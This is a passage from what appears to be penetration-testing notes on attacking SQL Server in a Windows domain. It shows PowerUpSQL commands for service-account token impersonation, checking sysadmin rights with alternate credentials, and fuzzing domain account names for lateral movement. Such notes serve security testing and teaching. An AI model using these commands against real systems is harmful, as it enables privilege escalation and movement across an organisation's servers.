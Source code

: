 ### Local Admin to Sysadmin

Extract service account credentials from LSA Secrets and/or memory, Token Impersonation for the SQL Server service,  single user mode etc. are very well known methods.

Impersonating the SQL Server service account (sysadmin) using the PowerUpSQL function InvokeSQLImpersonateService that wraps Joe Bialek’s Invoke-TokenManipulation:

```powershell
# PowerUpSQL
Invoke-SQLImpersonateService -Instance "SQLServer1\Instance1" -Verbose
```

## Lateral Movement

Once we move to the OS layer by executing OS commands, it is possible to move laterally to spread our access. SQL Servers provide various possibilities for lateral movement:
 
- **Shared Service Accounts** = Domain user or Domain admin (OS layer)
- **SQL Server Links** = Move laterally in the database layer

### Shared Service Accounts

**Why should I care about SQL Servers that share service accounts?**

- SysAdmins can execute OS commands
- OS commands run as the SQL Server service account
- Service accounts have sysadmin privileges by default
- Companies often use a single domain account to run hundreds of SQL Servers
- So if you get sysadmin on one server you have it on all of them!

Check if current user has sa privs on a SQL instance:

```powershell
# PowerUpSQL
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

Check for alternate creds:

```powershell
# PowerUpSQL
runas /noprofile /netonly /user:<domain\username> powershell.exe
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

Note that if we have access to hashes or tickets of any user, it always pay to check if that user is sysadmin on any database in the domain.

A user with public (everyone) role can be used to enumerate domain accounts and groups in the forest and other trusted forests by fuzzing the values to SUSER_NAME function:

```powershell
# PowerUpSQL
Get-SQLFuzzDomainAccount -Instance "SQLServer1.cybercorp.local" -StartId 500 -EndId 2000 -Verbose
Get-SQLFuzzDomainAccount -Instance "SQLServer1" -StartId 500 -EndId 2000 -Verbose -Domain "evilcorp.local"
```
